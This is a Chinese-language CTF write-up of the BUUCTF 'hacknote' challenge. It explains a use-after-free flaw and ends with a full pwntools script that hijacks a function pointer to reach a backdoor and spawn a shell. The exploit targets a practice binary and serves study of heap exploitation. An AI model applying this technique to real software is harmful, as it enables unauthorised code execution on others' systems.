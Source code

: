 ### UAF（修改堆地址）

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67c3f627d0e0a243d409afc3.png)

先 checksec

![](https://pic1.imgdb.cn/item/67c3f64ad0e0a243d409afcb.png)

同样是一个菜单管理

![](https://pic1.imgdb.cn/item/67c3f689d0e0a243d409b067.png)

在 IDA 中找到了后门函数

![](https://pic1.imgdb.cn/item/67c3f6b6d0e0a243d409b0f2.png)

add 函数

可以发现创建了两个 chunk，第一个 chunk 是默认的，存放 puts 函数，我们可以控制第二个 chunk

![](https://pic1.imgdb.cn/item/67c3f956d0e0a243d409b5f7.png)

delete，它只释放掉了堆块里的内容，但是没有将指针置 0，存在 uaf 漏洞

![](https://pic1.imgdb.cn/item/67c3fdccd0e0a243d409c212.png)

printf 函数

![](https://pic1.imgdb.cn/item/67c3fdedd0e0a243d409c27b.png)

可以先创建一个堆看看是不是有创建默认堆

```python
add(48,'aaaa')

gdb.attach(r)
```

![](https://pic1.imgdb.cn/item/67c3febcd0e0a243d409c4a7.png)

发现有创建默认堆，申请两个堆，实际上生成了四个堆

```python
add(48,'aaaa')
add(48,'bbbb')

gdb.attach(r)
```

![](https://pic1.imgdb.cn/item/67c400b7d0e0a243d409c910.png)

用 print f打印一个堆块看一下内容，可以看到打印出了 add 创建的第二个 chunk 里的值

![](https://pic1.imgdb.cn/item/67d8cb4f88c538a9b5c00a2d.png)

先 free 掉第一个创建的堆块

```python
delete(0)

gdb.attach(r)
```

![](https://pic1.imgdb.cn/item/67c4020cd0e0a243d409cc10.png)

再次释放第二个堆块

```python
delete(1)

gdb.attach(r)
```

![](https://pic1.imgdb.cn/item/67c40437d0e0a243d409cfe1.png)

我们再申请一个 8 字节的 chunk，写入 shell_addr 看一下堆块的情况

```python
add(8,p32(shell_addr))
gdb.attach(r)
```

![](https://pic1.imgdb.cn/item/67d8ca6e88c538a9b5c00a11.png)

![](https://pic1.imgdb.cn/item/67d8ca9788c538a9b5c00a17.png)

我们现在进行 printf 的话就会跳转到后门函数获取 shell

```python
from pwn import*

#r = remote('node5.buuoj.cn',28389)
r = process('./hacknote')

def add(size,content):
  r.sendlineafter('choice :','1')
  r.sendlineafter('Note size :',str(size))
  r.sendlineafter('Content :',content)

def delete(idx):
  r.sendlineafter('choice :','2')
  r.sendlineafter('Index :',str(idx))

def printf(idx):
  r.sendlineafter('choice :','3')
  r.sendlineafter('Index :',str(idx))

shell_addr = 0x8048945

add(48,'aaaa')
#gdb.attach(r)

add(48,'bbbb')
#gdb.attach(r)

delete(0)
#gdb.attach(r)

delete(1)
#gdb.attach(r)

add(8,p32(shell_addr))
#gdb.attach(r)

r.interactive()
```

